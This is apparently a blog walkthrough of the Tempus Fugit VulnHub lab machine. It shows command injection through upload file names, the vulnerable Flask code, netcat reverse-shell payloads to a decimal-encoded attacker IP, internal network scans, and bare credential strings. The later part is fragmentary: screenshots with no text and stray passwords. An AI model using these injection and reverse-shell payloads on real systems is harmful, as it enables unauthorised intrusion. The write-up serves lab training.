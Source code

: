 ```yaml
---
layout: post
title:  "Tempus Fugit: Vulnhub Walkthrough"
date:   2019-08-02 15:07:19
categories: [tutorial]
comments: true
---
```

This is a boot2root machine hosted on [VulnHub][1] that was created by [4ndr34z][5] and [DCAU][2]. Its graded as intermediate. As this is purely for educational purposes I'll throw in spoilers now. To exploit this machine we'll need to chain two different exploits. At the end we'll also include some mitigation strategies. Without much further ado here we go.

<!--more-->


Using [nmapAutomator][4]. Only port 80 is open:

![5-3.png](/assets/images/posts/tempus-fugit-walkthrough/20-1.png)

Navigating to the home page:
![5-3.png](/assets/images/posts/tempus-fugit-walkthrough/20-2.png)

We had nikto running in the background but this gave too many false positives we moved on from it.
```
# cat nikto_192.168.109.142_80.txt | wc -l 
2497
```
Using curl to get all athe links on the page. There's only one useful link.
```
kali@marksmith:~/vulnhub/tempus_fugit$ curl -s  192.168.109.142 | grep -Po '(href|src)=".{2,}"'
...
href="/upload"
...
```

The first three links don't have anything promising. We go to `/upload`

![5-3.png](/assets/images/posts/tempus-fugit-walkthrough/20-3.png)

When we try upload the file like `Cherry Notes.ctb.txt`. It throws the error below.

![5-3.png](/assets/images/posts/tempus-fugit-walkthrough/20-4.png)

We tried uploading other types of files all fail. It shows only 2 types of files are allowed rtf and txt:

![5-3.png](/assets/images/posts/tempus-fugit-walkthrough/20-5.png)


__Conclusion__
1. You can only upload rtf or txt
2. If theres a space files name no execution; you get an error 500
3. If you got other dots than the .[ext] it doesn't work.

Set up burp and start intercepting. In this case the use of Burp is a bit different, when we intercept can only deal with its at the proxy level. Here we go;

After much investigation, the `/upload` function prints the contents of the file, with `.txt or .rtf` that is uploaded. This gives us a hunch that in the background, it could be running a function like `/bin/cat [filename].txt`. So what if we could chain some commands at the end of the `[filename].txt` using `; or | or &&` we get command execution. We can do ls, id, pwd, uname -a. Boom we got RCE.

![5-5a.png](/assets/images/posts/tempus-fugit-walkthrough/20-5a.png)

![5-3.png](/assets/images/posts/tempus-fugit-walkthrough/20-5b.png)

![5-3.png](/assets/images/posts/tempus-fugit-walkthrough/20-5c.png)

Since we got RCE and can list the contents ; we find a file called `main.py`. Reading the code, there’s a part that splits the filename at the fullstops; thus payloads with fullstops are problematic; also payloads with slashes(/) too are problematic. Tried using wget to upload but we’re restricted from executing things in `/upload` directory … i think

![5-3.png](/assets/images/posts/tempus-fugit-walkthrough/20-5d.png)
```
import os
import urllib.request from flask
import Flask, flash, request, redirect, render_template from ftplib
import FTP
import subprocess
UPLOAD_FOLDER = 'upload'
ALLOWED_EXTENSIONS = {
  'txt',
  'rtf'
}
app = Flask(__name__)
app.secret_key = "mofosecret"
app.config['MAX_CONTENT_LENGTH'] = 2 * 1024 * 1024 @app.route('/', defaults = {
  'path': ''
}) @app.route('/<path:path>') def catch_all(path): cmd = 'fortune -o'
result = subprocess.check_output(cmd, shell = True) return "<h1>400 - Sorry. I didn't find what you where looking for.</h1> <h2>Maybe this will cheer you up:</h2><h3>" + result.decode("utf-8") + "</h3>"
@app.errorhandler(500) def internal_error(error): return "<h1>500?! - What are you trying to do here?!</h1>"
@app.route('/') def home(): return render_template('index.html') @app.route('/upload') def upload_form(): try: return render_template('my-form.html') except Exception as e: return render_template("500.html", error = str(e)) def allowed_file(filename): check = filename.rsplit('.', 1)[1].lower() check = check[: 3] in ALLOWED_EXTENSIONS
return check @app.route('/upload', methods = ['POST']) def upload_file(): if request.method == 'POST': if 'file' not in request.files: flash('No file part') return redirect(request.url) file = request.files['file']
if file.filename == '': flash('No file selected for uploading') return redirect(request.url) if file.filename and allowed_file(file.filename): filename = file.filename file.save(os.path.join(UPLOAD_FOLDER, filename)) cmd = "cat " + UPLOAD_FOLDER + "/" + filename result = subprocess.check_output(cmd, shell = True) flash(result.decode("utf-8")) flash('File successfully uploaded') try: ftp = FTP('ftp.mofo.pwn') ftp.login('someuser', 'b232a4da4c104798be4613ab76d26efda1a04606') with open(UPLOAD_FOLDER + "/" + filename, 'rb') as f: ftp.storlines('STOR %s' % filename, f) ftp.quit() except: flash("Cannot connect to FTP-server") return redirect('/upload')
else :flash('Allowed file types are txt and rtf') return redirect(request.url) if __name__ == "__main__": app.run()
```

Only option for a payload is `/bin/nc`. Also the IP has to be in decimal format Using `nc -e <<ip decimal format>> <<port number>> sh` works. 
Our IP 192.168.109.148 in decimal format is 3232263572 (using any online converter):

We initially tried these.
```
nc -e /bin/sh 3232263572 4242
nc -e /bin/bash 3232263572 4242
nc 3232263572 4242 sh
```
None of them payloads worked;

However, this gives a reverse shell.

```
nc 3232263572 4242 -e sh
```

Once we're inside we realise why the first three options didnt work. The `-e option` must be last;

![5-3.png](/assets/images/posts/tempus-fugit-walkthrough/20-6.png)

When we run LinEnum, it tells us we're in a docker environment, 
```
[+] Looks like we're in a Docker container:
...
-rwxr-xr-x    1 root     root             0 Aug 16  2019 /.dockerenv
```

The machine IP is different from what we have externally as well
```
### NETWORKING  ##########################################
[-] Network and IP info:
eth0      Link encap:Ethernet  HWaddr 02:42:AC:13:00:0A
          inet addr:172.19.0.10  Bcast:172.19.255.255  Mask:255.255.0.0
          UP BROADCAST RUNNING MULTICAST  MTU:1500  Metric:1
          RX packets:139629 errors:0 dropped:0 overruns:0 frame:0
          TX packets:135825 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:0
          RX bytes:7799491 (7.4 MiB)  TX bytes:10351266 (9.8 MiB)
...
```

As we did in [wintermute][6] we scan the internal network;

```
for ip in $(seq 1 254); do ping -c 1 172.19.0.$ip | grep "bytes from" | cut -d " " -f 4 | cut -d ":" -f 1 ; done

172.19.0.1
172.19.0.10
172.19.0.12
172.19.0.100

for p in $(seq 1 65535); do nc -nvzw1 172.19.0.12 $p 2>&1 ; done | grep open
172.19.0.12 (172.19.0.12:21) open

for p in $(seq 1 65535); do nc -nvzw1 172.19.0.100 $p 2>&1 ; done | grep open
172.19.0.100 (172.19.0.100:53) open

for p in $(seq 1 65535); do nc -nvzw1 172.19.0.1 $p 2>&1 ; done | grep open
172.19.0.1 (172.19.0.1:22) open
172.19.0.1 (172.19.0.1:80) open
172.19.0.1 (172.19.0.1:8080) open
```

bash-4.4# cat rl_history
 1565501674
open 172.19.0.12
 1565501679
quit
 1565501725
lftp 172.19.0.12
 1565501727
ls
 1565501758
?
 1565501767
qut
 1565501769
quit
 1565595928
exit
 1584064057
user someruser
 1584064068
id
 1584064071
list
 1584064080
help
 1584064113
ls
 1584064115
exit


b232a4da4c104798be4613ab76d26efda1a04606

![5-3.png](/assets/images/posts/tempus-fugit-walkthrough/20-7.png)

![5-3.png](/assets/images/posts/tempus-fugit-walkthrough/20-8.png)

myD3#2p$a%s&s

![5-3.png](/assets/images/posts/tempus-fugit-walkthrough/20-9.png)

![5-3.png](/assets/images/posts/tempus-fugit-walkthrough/20-10.png)

![5-3.png](/assets/images/posts/tempus-fugit-walkthrough/20-11.png)


![5-3.png](/assets/images/posts/tempus-fugit-walkthrough/20-12.png)

![5-3.png](/assets/images/posts/tempus-fugit-walkthrough/20-13.png)













hardEnough4u

[1]: https://www.vulnhub.com/entry/billu-b0x-2,238/
[2]: https://twitter.com/@DCAU7
[3]: https://www.vulnhub.com/
[4]: https://github.com/21y4d/nmapAutomator
[5]: https://twitter.com/@4nqr34z